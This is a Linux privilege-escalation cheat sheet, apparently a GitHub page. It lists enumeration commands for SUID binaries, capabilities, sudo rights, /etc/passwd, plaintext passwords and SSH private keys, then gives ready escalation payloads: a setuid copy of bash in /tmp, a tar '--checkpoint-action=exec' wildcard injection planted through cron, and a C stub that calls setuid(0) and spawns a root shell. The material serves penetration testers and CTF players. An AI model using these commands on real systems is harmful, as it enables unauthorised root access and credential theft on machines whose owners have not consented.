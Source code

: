 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - uname -a 

Proccesses,services - ps aux, ps aux | grep root

Suid - find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null

trace - strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

Capabilities - getcap -r / 2>/dev/

NFS - cat /etc/exports

Architechture and cpu info - lscpu

## User Enumeration

Info about user - whoami, id

What can we run as sudo - sudo -l

Users - cat /etc/passwd, cat /etc/passwd | cut -d : -f 1

## Network Enumeration

IP info - ifconfig,

Routing info - ip route

Connections - netstat

## Password Hunting

Password phrases - grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null

Password files - locate password

Finding ssh keys - find / -name id_rsa 2> /dev/null

## Useful commands

echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file

cron wildcards
'''

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

'''
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker
